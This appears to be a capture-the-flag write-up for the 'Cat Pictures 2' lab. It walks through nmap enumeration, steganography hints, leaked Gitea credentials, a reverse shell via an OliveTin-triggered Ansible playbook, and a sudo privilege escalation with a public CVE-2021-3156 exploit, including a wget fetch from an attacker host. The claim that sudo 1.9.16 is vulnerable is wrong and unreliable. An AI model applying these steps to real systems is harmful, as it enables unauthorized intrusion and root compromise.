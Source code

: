 # Cat Pictures 2

### Flags!
Initial nmap scan shows ports 22,80,222,1337,3000 and 8080 open:

    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 33:f0:03:36:26:36:8c:2f:88:95:2c:ac:c3:bc:64:65 (RSA)
    |   256 4f:f3:b3:f2:6e:03:91:b2:7c:c0:53:d5:d4:03:88:46 (ECDSA)
    |_  256 13:7c:47:8b:6f:f8:f4:6b:42:9a:f2:d5:3d:34:13:52 (ED25519)
    80/tcp   open  http    nginx 1.4.6 (Ubuntu)
    | http-git: 
    |   10.10.150.134:80/.git/
    |     Git repository found!
    |     Repository description: Unnamed repository; edit this file 'description' to name the...
    |     Remotes:
    |       https://github.com/electerious/Lychee.git
    |_    Project type: PHP application (guessed from .gitignore)
    | http-robots.txt: 7 disallowed entries 
    |_/data/ /dist/ /docs/ /php/ /plugins/ /src/ /uploads/
    |_http-title: Lychee
    |_http-server-header: nginx/1.4.6 (Ubuntu)
    222/tcp  open  ssh     OpenSSH 9.0 (protocol 2.0)
    | ssh-hostkey: 
    |   256 be:cb:06:1f:33:0f:60:06:a0:5a:06:bf:06:53:33:c0 (ECDSA)
    |_  256 9f:07:98:92:6e:fd:2c:2d:b0:93:fa:fe:e8:95:0c:37 (ED25519)
    1337/tcp open  waste?
    | fingerprint-strings: 
    |   GenericLines: 
    |     HTTP/1.1 400 Bad Request
    |     Content-Type: text/plain; charset=utf-8
    |     Connection: close
    |     Request
    |   GetRequest, HTTPOptions: 
    |     HTTP/1.0 200 OK
    |     Accept-Ranges: bytes
    |     Content-Length: 3858
    |     Content-Type: text/html; charset=utf-8
    |     Date: Sun, 22 Dec 2024 20:08:19 GMT
    |     Last-Modified: Wed, 19 Oct 2022 15:30:49 GMT
    |     <!DOCTYPE html>
    |     <html>
    |     <head>
    |     <meta name="viewport" content="width=device-width, initial-scale=1.0">
    |     <title>OliveTin</title>
    |     <link rel = "stylesheet" type = "text/css" href = "style.css" />
    |     <link rel = "shortcut icon" type = "image/png" href = "OliveTinLogo.png" />
    |     <link rel = "apple-touch-icon" sizes="57x57" href="OliveTinLogo-57px.png" />
    |     <link rel = "apple-touch-icon" sizes="120x120" href="OliveTinLogo-120px.png" />
    |     <link rel = "apple-touch-icon" sizes="180x180" href="OliveTinLogo-180px.png" />
    |     </head>
    |     <body>
    |     <main title = "main content">
    |     <fieldset id = "section-switcher" title = "Sections">
    |     <button id = "showActions">Actions</button>
    |_    <button id = "showLogs">Logs</but
    3000/tcp open  ppp?
    | fingerprint-strings: 
    |   GenericLines, Help, RTSPRequest: 
    |     HTTP/1.1 400 Bad Request
    |     Content-Type: text/plain; charset=utf-8
    |     Connection: close
    |     Request
    |   GetRequest: 
    |     HTTP/1.0 200 OK
    |     Cache-Control: no-store, no-transform
    |     Content-Type: text/html; charset=UTF-8
    |     Set-Cookie: i_like_gitea=7cbab1b137caab4d; Path=/; HttpOnly; SameSite=Lax
    |     Set-Cookie: _csrf=SffAM2ZL2mfIiWjRzUlcR_P4veg6MTczNDg5ODA5OTQ0MjMxMzYzNw; Path=/; Expires=Mon, 23 Dec 2024 20:08:19 GMT; HttpOnly; SameSite=Lax
    |     Set-Cookie: macaron_flash=; Path=/; Max-Age=0; HttpOnly; SameSite=Lax
    |     X-Frame-Options: SAMEORIGIN
    |     Date: Sun, 22 Dec 2024 20:08:19 GMT
    |     <!DOCTYPE html>
    |     <html lang="en-US" class="theme-">
    |     <head>
    |     <meta charset="utf-8">
    |     <meta name="viewport" content="width=device-width, initial-scale=1">
    |     <title> Gitea: Git with a cup of tea</title>
    |     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfdXJsIjoiaHR0cDovL2xvY2FsaG9zdDozMDAwLyIsImljb25zIjpbeyJzcmMiOiJodHRwOi
    |   HTTPOptions: 
    |     HTTP/1.0 405 Method Not Allowed
    |     Cache-Control: no-store, no-transform
    |     Set-Cookie: i_like_gitea=c6dc4fa792ad5cd3; Path=/; HttpOnly; SameSite=Lax
    |     Set-Cookie: _csrf=i82q43PSHKigw-Qb-AdDAuDqSWE6MTczNDg5ODEwNDczOTcyODY2MA; Path=/; Expires=Mon, 23 Dec 2024 20:08:24 GMT; HttpOnly; SameSite=Lax
    |     Set-Cookie: macaron_flash=; Path=/; Max-Age=0; HttpOnly; SameSite=Lax
    |     X-Frame-Options: SAMEORIGIN
    |     Date: Sun, 22 Dec 2024 20:08:24 GMT
    |_    Content-Length: 0
    8080/tcp open  http    SimpleHTTPServer 0.6 (Python 3.6.9)
    |_http-server-header: SimpleHTTP/0.6 Python/3.6.9
    |_http-title: Welcome to nginx!

Gobuster directory enumeration shows the following directories:<br />
![image](https://github.com/user-attachments/assets/f36e081e-9f12-4d73-ac94-b7325b9007f8)<br />
Robots.txt file shows the following directories: <br />
![image](https://github.com/user-attachments/assets/e541d71c-abb0-4643-a4d2-24809da568f6)<br />
I also enumerated al the other webservers a bit but I didn't find anything. Then, looking at the album pictures, I found a hint:<br />
![image](https://github.com/user-attachments/assets/d181e5e9-1d7b-4fbe-b098-7f7b458e4dc8)<br />
This means that there's likely some hidden information inside this image. This is a lesson to me, don't start enumerating stuff like an automa. Start on the simple things, look at the page in front of you and explore it as a normal user.<br /><br />
So I download the image and use the tool `steghide` to extract information from it(`sudo apt-get install steghide`). I get asked to enter a passphrase: <br />
![image](https://github.com/user-attachments/assets/e58eed48-17a0-4587-a7dc-d85fe4aa76bf)<br />
I tried to use `stegseek` to bruteforce the passphrase with rockyou.txt but it didn't work. Next I used the tool `exiftool` that extracts metadata from images. So I run `exiftool f5054e97620f168c7b5088c85ab1d6e4.jpg` <br />
![image](https://github.com/user-attachments/assets/52fdcd03-f1a4-47bd-979a-c2d8f9bce835)<br />
Among other things, the title is really weird, and hints at the presence of a .txt file inside the webserver at port 8080. In fact, there's something there: <br />
![image](https://github.com/user-attachments/assets/a3a40f81-b53a-439c-ace7-e8c2b13a9e88)<br />
New credentials found: `samarium:TUmhyZ37CLZrhP`. After logging into gitea I get the first flag. Now we also have access to the repository containing `ansible/playbook.yaml`. <br />
Now If we check the webserver at port 1337, there's an `OliveTin` instance, which is a web application that gives safe access to system commands for people that are less techical. Among all the commands, there's "Run Ansible Playbook":<br />
![image](https://github.com/user-attachments/assets/6e1bf9d5-ad0b-441e-a1f8-aa41ef1fdb5f)<br />
In order to spawn a reverse shell, I open a netcat listener on port 4444, and modify the `playbook.yaml` as follows:<br />
![image](https://github.com/user-attachments/assets/3e45ca86-2450-4941-8909-5b2a218efe65)<br />
I am now the user `bismuth` and got the second flag.<br />
Running linpeas, it shows me, among other things, the sudo version: <br />
![image](https://github.com/user-attachments/assets/7bc45ae8-f5a0-422b-ad91-6d775a7975bd)<br />
The current sudo version is `1.9.16`, so this one must be vulnerable. I found [here](https://github.com/blasty/CVE-2021-3156) a POC for a CVE that exploits this sudo version for privilege escalation.<br />
What I need to do now is to download the repo on my machine with `git clone https://github.com/blasty/CVE-2021-3156`. Then I need to transfer it on the target machine. Since I can't transfer an entire folder using netcat or python http.server, I need to compress it first.<br />
Run `tar -cvf exp.tar CVE-2021-3156` (-c stands for create, -v for verbose, -f to specify the name of the file). So now open an http server with `python3 -m http.server`, and on the attacker machine download it with `wget http://attacker_IP/exp.tar`.<br />
Now on the target machine, run `tar xf exp.tar` (-x stands for extract, -f specifies the file) and then run `make`, like below:<br />
![image](https://github.com/user-attachments/assets/9b9770eb-3770-4c95-a3eb-acd0b34b96d6)<br />
Now I can run the exploit on the target machine and get the last flag: <br />
![image](https://github.com/user-attachments/assets/063563ea-54b5-4ffc-b6ef-62181f519176)<br />
